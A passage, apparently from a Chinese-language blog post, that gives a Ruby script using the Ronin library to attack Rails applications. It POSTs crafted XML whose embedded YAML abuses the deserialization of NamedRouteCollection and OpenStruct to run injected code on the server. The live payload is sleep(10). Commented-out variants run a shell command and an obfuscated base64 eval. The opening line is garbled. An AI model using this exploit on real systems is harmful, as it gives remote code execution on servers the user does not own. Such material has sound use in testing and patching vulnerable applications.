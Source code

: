 (后来大家发现---||||||||||| !ruby/struct可以达到与OpenStruct类似的功效，有兴趣的童鞋可以研究下)

测试代码如下：

```
require 'ronin/network/http'
require 'ronin/ui/output'
require 'yaml'

include Ronin::Network::HTTP
include Ronin::UI::Output::Helpers

url   = ARGV[0]

# xml = %{
# <?xml version="1.0" encoding="UTF-8"?>
# <bingo type='yaml'>
# --- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
# 'test; eval(%[Y29kZSA9ICdjM2x6ZEdWdEtDZGxZMmh2SUNJeE1URWlJRDRnTDNSdGNDOW1kV05yWm5WamF5Y3AnLnVucGFjaygibTAiKS5maXJzdAppZiBSVUJZX1BMQVRGT1JNID1+IC9tc3dpbnxtaW5nd3x3aW4zMi8KaW5wID0gSU8ucG9wZW4oInJ1YnkiLCAid2IiKSByZXNjdWUgbmlsCmlmIGlucAppbnAud3JpdGUoY29kZSkKaW5wLmNsb3NlCmVuZAplbHNlCmlmICEgUHJvY2Vzcy5mb3JrKCkKZXZhbChjb2RlKSByZXNjdWUgbmlsCmVuZAplbmQ=].unpack(%[m0])[0]);' :
#  !ruby/object:OpenStruct
#   table:
#    :defaults: {}
# </bingo>
# }.strip

# xml = %{
# <?xml version="1.0" encoding="UTF-8"?>
# <bingo type='yaml'>
# --- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
# 'test; system("touch /tmp/rails");' :
#  !ruby/object:OpenStruct
#   table:
#    :defaults: {}
# </bingo>
# }.strip

xml = %{
<?xml version="1.0" encoding="UTF-8"?>
<bingo type='yaml'>
--- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
'test; sleep(10);' :
 !ruby/object:OpenStruct
  table:
   :defaults: {}
</bingo>
}.strip

response = http_post(
  :url       => url,
  :headers   => {
    :content_type           => 'text/xml',
    :\x_http_method_override => 'post'
  },
  :body      => xml
)

print_debug "Received #{response.code} response"

puts response.code
case response.code
when '200' then print_info  response.body + " ok"
when '404' then print_error "Not found"
```